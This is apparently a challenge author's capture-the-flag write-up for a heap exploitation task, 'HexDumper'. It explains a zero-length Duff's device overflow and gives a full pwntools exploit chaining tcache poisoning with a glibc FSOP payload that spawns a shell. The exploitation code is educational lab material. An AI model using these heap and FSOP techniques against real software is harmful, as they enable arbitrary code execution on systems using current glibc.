


# HexDumper

## Write-up

### Solution
TLDR: Merge with a dump of size zero to get an 8-byte overflow -> get overlapping chunks -> tcache poison -> arbitrary code execution on latest libc (e.g., via FSOP).

Our goal is to get an out-of-bounds write on the heap.
By examining the code, we can notice a potential issue in the Duff’s Device when `count` equals zero. Indeed in the wikipedia post it's written that `This code assumes that initial count > 0`.
To get count to equal to zero we must set the length of the second chunk to zero.

```c
void merge_dumps(void) {
    int idx1 = ask_for_index();
    if (idx1 == -1)
        return;
    if (dumps[idx1] == NULL) {
        printf("\tDump with index %d doesn't exist\t", idx1);
        return;
    }
    
    int idx2 = ask_for_index();
    if (idx2 == -1)
        return;
    if (dumps[idx2] == NULL) {
        printf("\tDump with index %d doesn't exist\n", idx2);
        return;
    }

    if (idx1 == idx2) {
        puts("\tCan't merge a dump with itself");
        return;
    }

    size_t len1 = dump_sizes[idx1];
    size_t len2 = dump_sizes[idx2];
    size_t new_len = len1 + len2;
    if (new_len > MAX_DUMP_SIZE) {
        printf("\tMerged size is too big! %lu > %lu\n",
               new_len,
               (size_t)MAX_DUMP_SIZE);
        return;
    }
    dumps[idx1] = realloc(dumps[idx1], len1+len2);
    dump_sizes[idx1] = new_len;

    // Code from: https://en.wikipedia.org/wiki/Duff%27s_device
    register unsigned char *to = dumps[idx1]+len1, *from = dumps[idx2];
    register int count = len2;
    {
        register int n = (count + 7) / 8;
        switch (count % 8) {
        case 0: do { *to++ = *from++;
        case 7:      *to++ = *from++;
        case 6:      *to++ = *from++;
        case 5:      *to++ = *from++;
        case 4:      *to++ = *from++;
        case 3:      *to++ = *from++;
        case 2:      *to++ = *from++;
        case 1:      *to++ = *from++;
                } while (--n > 0);
        }
    }

    free(dumps[idx2]);
    dumps[idx2] = NULL;
    dump_sizes[idx2] = 0;
    --no_dumps;
    
    puts("\tMerge successful");
}
```
In this case, we get an 8-byte overflow that copies the first 8 bytes
from the second chunk to the end of the merged one. Since the size of the allocation remains unchanged, `realloc()` doesn’t move it - no reallocation occurs
and the function returns the same address. In effect, we get a primitive that
writes 8 arbitrary bytes after the first merged chunk. This can be used to corrupt heap metadata.

```python
    # Allocate 3 dumps.
    a = create_dump(io, 16)
    b = create_dump(io, 24)
    c = create_dump(io, 16)

    # We write p64(0x411) at the first 8 bytes of dump a.
    # Those are the bytes that will be appended in the overflow
    # to dump b during the merge.
    change_bytes(io, a, 0, p64(0x411))
    # Resize dump a to zero to exploit the bug in Duff's device.
    resize_dump(io, a, 0)
    # Do the merge, in effect we overwrite the heap's metadata.
    # Specifically we overwrite dump c's chunk size to 0x410.
    merge(io, b, a)
```

In the code responsible for resizing we can see that there's an explicit if statement
that avoids doing a realloc when the size is smaller. As the challenge's author
I did this intentionally, [as otherwise the behaviour of `realloc(p, 0)`](https://stackoverflow.com/questions/28659940/does-reallocp-0-really-involves-freep-in-glibc)
is very annoying in the context of this challenge.

```c
void resize_dump(void) {
    int idx = ask_for_index();
    if (idx == -1)
        return;
    if (dumps[idx] == NULL) {
        printf("\tDump with index %d doesn't exist\n", idx);
        return;
    }

    printf("\tNew size: ");
    size_t new_size = 0;
    scanf("%lu", &new_size);
    if (new_size > MAX_DUMP_SIZE) {
        printf("\tNew size is too big! %lu > %lu\n",
               new_size,
               (size_t)MAX_DUMP_SIZE);
        return;
    }
    
    size_t old_size = dump_sizes[idx];
    if (old_size < new_size) {
        dumps[idx] = realloc(dumps[idx], new_size);

        // Zero out the new memory
        size_t no_new_bytes = new_size - old_size;
        memset(dumps[idx]+old_size, 0, no_new_bytes);
    }
    
    dump_sizes[idx] = new_size;
    puts("\tResize successful");
}
```

This is how the heap looks like before the merge, where each color represents a different allocated chunk:



And this is how the heap looks like after the merge. We free the chunk representing dump a and we overwrite
dump c's chunk size to 0x411.




If you're confused for example why all the chunks have the same size 0x20 (or what is tcache later in the write-up), I recommend diving into glibc's malloc
internals. [This link is a good start](https://sourceware.org/glibc/wiki/MallocInternals).
In short, the size gets aligned to a multiple of 16 and there's also a trick where the prev_size value of the next chunk
is used as a part of the allocated memory, so no need to include it in the size.

After overwriting the size, we can easily get overlapping chunks resulting in an easy way to leak addresses and
do tcache poisoning.

```python
    # Free the chunk and allocate it again to get overlapping chunks.
    remove_dump(io, c)
    c = create_dump(io, 0x400)
    # Fix the top chunk size that got zeroed-out by the allocation.
    change_bytes(io, c, 16+8, p64(0x0000000000020d11))
```

Since we already have overlapping chunks lets start with getting the leaks. To get them we will malloc a huge chunk
that after a free will land in the unsorted bin, as they contain libc addresses we want to leak.

```python
    leaky_dump = create_dump(io, 0x1000)
    # Create a chunk so after freeing the one above it wont get merged
    # with the top chunk.
    guard_dump = create_dump(io, 32)
    remove_dump(io, leaky_dump)
    hx = hexdump_dump(io, c)
    libc_leak = u64(hx[32:32+8])
    info(f"{hex(libc_leak)=}")
    libc.address = libc_leak - 0x211b20
    info(f"{hex(libc.address)=}")
```

After that we leak some more stuff to [decrypt safe linking](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/decrypt_safe_linking.c)
and prepare tcache linked list for corruption. The size 0xe8 is not arbitrary, as I will aim for [FSOP](https://niftic.ca/posts/fsop/) later to get
arbitrary code execution and this is the size of the FILE struct I want to overwrite.
```python
    # Create small chunks for tcache poisoning.
    d = create_dump(io, 0xf0-8)
    e = create_dump(io, 0xf0-8)
    f = create_dump(io, 0xf0-8)
    g = create_dump(io, 0xf0-8)
    
    remove_dump(io, g)
    hx = hexdump_dump(io, c)
    # Leak xor key to decrypt safe linking.
    xor_key = u64(hx[0x2f0:0x2f0+8])
    info(f"{hex(xor_key)=}")
    # Prepare chunks for tcache poisoning.
    remove_dump(io, f)
    remove_dump(io, e)
    remove_dump(io, d)
```

Finally, we do the poisoning to get an almost arbitrary write on libc.
To get code execution with it [this is a good resource](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc)
, though it is somewhat outdated. From experience I can say that the libc's GOT table
is now [FULL RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) and dtor_list is no longer
close to PTR_MANGLE cookie. Though FSOP still works like a charm and nothing suggests that anything will change.
I use a payload I've seen only ptr-yudai use in their's write-ups, but it's the best one I've seen.
```python
    # Poison tcache pointer to point to the stderr FILE struct.
    change_bytes(io, c, 0x20, p64(((libc.sym['_IO_2_1_stderr_']) ^ (xor_key))))
    x = create_dump(io, 0xf0-8)
    # Malloc returned a pointer inside of libc, with which we will do FSOP.
    target = create_dump(io, 0xf0-8)

    # Payload I have stolen from ptr-yudai.
    file = FileStructure(0)
    file.flags = u64(p32(0xfbad0101) + b";sh\0")
    file._IO_save_end = libc.sym["system"]
    file._lock = libc.sym["_IO_2_1_stderr_"] - 0x10
    file._wide_data = libc.sym["_IO_2_1_stderr_"] - 0x10
    file._offset = 0
    file._old_offset = 0
    file.unknown2 = b"\x00"*24+ p32(1) + p32(0) + p64(0) + \
        p64(libc.sym["_IO_2_1_stderr_"] - 0x10) + \
        p64(libc.sym["_IO_wfile_jumps"] + 0x18 - 0x58)
    change_bytes(io, target, 0, bytes(file))

    io.sendline(b"cat flag")
    io.sendline(b"cat flag")

    io.recvuntil(b"BtSCTF")
    io.intearactive()
```

This is how the full exploit looks like:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hexdumper_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal = "alacritty -e".split()


def conn():
    if args.LOCAL:
        if args.GDB:
            io = gdb.debug([exe.path], aslr=False, api=False, gdbscript="""
            set follow-fork-mode parent
            """)
        else:
            io = process([exe.path])
            #gdb.attach(io)
    else:
        io = remote("127.0.0.1", 1337)
    return io


def create_dump(io, size):
    io.sendlineafter(b"==>", b"1")
    io.sendlineafter(b"size", str(size).encode())
    io.recvuntil(b"at index ")
    return int(io.recvline())


def hexdump_dump(io, idx):
    io.sendlineafter(b"==>", b"2")
    io.sendlineafter(b"index: ", str(idx).encode())
    io.recvuntil(b"+")
    io.recvline()
    dump = []
    while (line := io.recvline().strip()) != b"":
        line = line.split(b"|")[1]
        dump.extend([int(n, 16) for n in line.split()])
    return bytes(dump)


def change_byte(io, idx, offset, val):
    io.sendlineafter(b"==>", b"3")
    io.sendlineafter(b"index: ", str(idx).encode())
    io.sendlineafter(b"Offset: ", str(offset).encode())
    io.sendlineafter(b"decimal: ", str(val).encode())


def change_bytes(io, idx, offset, ba):
    for i, byte in enumerate(ba):
        change_byte(io, idx, offset+i, byte)


def merge(io, idx1, idx2):
    io.sendlineafter(b"==>", b"4")
    io.sendlineafter(b"index: ", str(idx1).encode())
    io.sendlineafter(b"index: ", str(idx2).encode())


def resize_dump(io, idx, new_size):
    io.sendlineafter(b"==>", b"5")
    io.sendlineafter(b"index: ", str(idx).encode())
    io.sendlineafter(b"New size: ", str(new_size).encode())


def remove_dump(io, idx):
    io.sendlineafter(b"==>", b"6")
    io.sendlineafter(b"index: ", str(idx).encode())


def list_dumps(io):
    io.sendlineafter(b"==>", b"7")
    dumps = []
    while (line := io.recvline()) != b"":
        idx, len = line.split(b": ")
        idx = int(idx)
        len = int(len.split(b"=")[1])
        dumps.append((idx, len))
    return dumps
    

def coredump(io):
    io.sendlineafter(b"==>", b"0")


def main():
    io = conn()

    # Allocate 3 dumps.
    a = create_dump(io, 16)
    b = create_dump(io, 24)
    c = create_dump(io, 16)

    # We write p64(0x411) at the first 8 bytes of dump a.
    # Those are the bytes that will be appended in the overflow
    # to dump b during the merge.
    change_bytes(io, a, 0, p64(0x411))
    # Resize dump a to zero to exploit the bug in Duff's device.
    resize_dump(io, a, 0)
    # Do the merge, in effect we overwrite the heap's metadata.
    # Specifically we overwrite dump c's chunk size to 0x410.
    merge(io, b, a)

    # Free the chunk and allocate it again to get overlapping chunks.
    remove_dump(io, c)
    c = create_dump(io, 0x400)
    # Fix the top chunk size that got zeroed-out by the allocation.
    change_bytes(io, c, 16+8, p64(0x0000000000020d11))

    
    leaky_dump = create_dump(io, 0x1000)
    # Create a chunk so after freeing the one above it wont get merged
    # with the top chunk.
    guard_dump = create_dump(io, 32)
    remove_dump(io, leaky_dump)
    hx = hexdump_dump(io, c)
    libc_leak = u64(hx[32:32+8])
    info(f"{hex(libc_leak)=}")
    libc.address = libc_leak - 0x211b20
    info(f"{hex(libc.address)=}")

    # Create small chunks for tcache poisoning.
    d = create_dump(io, 0xf0-8)
    e = create_dump(io, 0xf0-8)
    f = create_dump(io, 0xf0-8)
    g = create_dump(io, 0xf0-8)
    
    remove_dump(io, g)
    hx = hexdump_dump(io, c)
    # Leak xor key to decrypt safe linking.
    xor_key = u64(hx[0x2f0:0x2f0+8])
    info(f"{hex(xor_key)=}")
    # Prepare chunks for tcache poisoning.
    remove_dump(io, f)
    remove_dump(io, e)
    remove_dump(io, d)

    # Poison tcache pointer to point to the stderr FILE struct.
    change_bytes(io, c, 0x20, p64(((libc.sym['_IO_2_1_stderr_']) ^ (xor_key))))
    x = create_dump(io, 0xf0-8)
    # Malloc returned a pointer inside of libc, with which we will do FSOP.
    target = create_dump(io, 0xf0-8)

    # Payload I have stolen from ptr-yudai.
    file = FileStructure(0)
    file.flags = u64(p32(0xfbad0101) + b";sh\0")
    file._IO_save_end = libc.sym["system"]
    file._lock = libc.sym["_IO_2_1_stderr_"] - 0x10
    file._wide_data = libc.sym["_IO_2_1_stderr_"] - 0x10
    file._offset = 0
    file._old_offset = 0
    file.unknown2 = b"\x00"*24+ p32(1) + p32(0) + p64(0) + \
        p64(libc.sym["_IO_2_1_stderr_"] - 0x10) + \
        p64(libc.sym["_IO_wfile_jumps"] + 0x18 - 0x58)
    change_bytes(io, target, 0, bytes(file))

    io.sendline(b"cat flag")
    io.sendline(b"cat flag")

    io.recvuntil(b"BtSCTF")
    io.interactive()


if __name__ == "__main__":
    main()
```

### Post-mortem

There was an unintended in the `ask_for_index()` function for negative indexes :(. Skill issue on my part.
You can see the Discord server of the competition for other teams' solves.
In hindsight, the unintended was probably a good thing. Thanks to it we had a
challenge that was easier than the other two resulting in a better solve distribution.
